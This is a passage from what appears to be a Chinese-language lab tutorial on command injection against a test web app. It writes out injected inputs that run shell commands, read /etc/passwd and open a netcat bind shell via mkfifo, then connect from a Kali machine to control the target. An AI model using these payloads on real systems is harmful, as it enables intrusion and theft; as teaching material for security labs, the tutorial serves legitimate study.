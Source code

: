![show-two-command](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889874363.png/wm)

我们可以看到可以正常执行，说明没有任何的防范，类似的命令还有：

```
127.0.0.1;pwd
```

![show-fenhao](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889882929.png/wm)

亦或者：

```
| ls -lah
```

![show-shuxian](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889892523.png/wm)

既然能够获取信息，必然会选择查看有用的信息：

```
| cat /etc/passwd
```

![show-passwd](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889900485.png/wm)

如此的话，似乎什么命令都可以执行，我们甚至可以使用 `wget` 命令下载我们准备好的木马，使他在后台执行，这样我们就可以通过这个某门远程连接或者是 webshell 来远程操控我们的目标主机了。

可见命令注入是一件非常危险的事情。一定不能轻易的提供这样的服务，若是一定要提供一定要做好响应的防范与过滤措施。

### 5.4 命令注入进阶

命令的注入不仅仅可以这样简单的执行命令，我们还可以联合 metasploit 工具。

还记得我们在远程包含试验中使用的反弹 shell 中所使用的 netcat 工具吗？也就是 nc 命令。

我们利用 mkfifo 命令与 nc 命令创建一个可以交互的平台：

```
| mkfifo /tmp/pipe;sh /tmp/pipe | nc -lp 1111 > /tmp/pipe
```

该命令就是通过 mkfifo 命令创建一个进程之间能够相互通信的管道，使得 nc 所监听的 1111 端口号能够与可交互的 shell 相互连接通信。如此我们就可以像 ssh 登陆一般使用目标主机了。

submit 提交之后，我们会发现页面一直处于加载状态，因为 nc 一直在监听 1111 端口，并没有切换至后台工作：

![show-load](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889911753.png/wm)

经过短时间的等待，kali 虚拟机启动之后，此时我们使用 ssh 登陆上 kali 虚拟机的终端，我们可以通过 netcat 命令与目标主机建立连接，使用这样一个命令：

```
nc 192.168.122.102 1111
```

该命令就是用于与 192.168.122.102 目标主机监听的 1111 端口建立连接。

由此我们便可如 ssh 登陆一般控制目标主机了：

![show-nc-connection](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889921957.png/wm)
